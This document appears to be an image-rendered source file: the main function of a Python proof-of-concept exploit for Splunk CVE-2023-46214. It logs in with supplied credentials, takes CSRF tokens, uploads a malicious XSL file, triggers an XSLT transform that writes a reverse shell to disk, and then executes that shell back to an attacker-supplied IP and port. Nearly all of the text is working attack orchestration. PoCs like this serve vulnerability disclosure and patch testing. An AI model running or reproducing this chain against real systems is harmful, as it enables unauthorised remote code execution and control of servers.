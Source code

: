 ```python

def main():
    parser = argparse.ArgumentParser(description='Splunk CVE-2023-46214 RCE PoC')
    parser.add_argument('--url', required=True, help='Splunk instance URL')
    parser.add_argument('--username', required=True, help='Splunk username')
    parser.add_argument('--password', required=True, help='Splunk password')
    parser.add_argument('--ip', required=True, help='Reverse Shell IP')
    parser.add_argument('--port', required=True, help='Reverse Shell Port')

    args = parser.parse_args()

    session = requests.Session()

    print("[!] CVE: CVE-2023-46214")
    print("[!] Github: <https://github.com/nathan31337/Splunk-RCE-poc>")

    if not login(session, args.url, args.username, args.password):
        print("[-] Authentication failed")
        exit()

    print("[+] Authentication successful")

    print("[*] Grabbing CSRF token", end="\\r")
    if not get_cookie(session, f"{args.url}/en-US"):
        print("[-] Failed to obtain CSRF token")
        exit()

    print("[+] CSRF token obtained")

    csrf_token = session.cookies.get("splunkweb_csrf_token_8000", None)

    malicious_xsl = generate_malicious_xsl(args.ip, args.port)
    uploaded, text_value = upload_file(session, args.url, malicious_xsl, csrf_token)

    if not uploaded:
        print("[-] File upload failed")
        exit()

    print("[+] Malicious XSL file uploaded successfully")

    jsid_created, jsid = get_job_search_id(session, args.url, args.username, csrf_token)

    if not jsid_created:
        print("[-] Creating job failed")
        exit()

    print("[+] Job search ID obtained")

    print("[*] Grabbing new CSRF token", end="\\r")
    if not get_cookie(session, f"{args.url}/en-US"):
        print("[-] Failed to obtain CSRF token")
        exit()

    print("[+] New CSRF token obtained")

    if not trigger_xslt_transform(session, args.url, jsid, text_value):
        print("[-] XSLT Transform failed")
        exit()

    print("[+] Successfully wrote reverse shell to disk")
    if not trigger_reverse_shell(session, args.url, args.username, jsid, csrf_token):
        print("[-] Failed to execute reverse shell")
        exit()
```
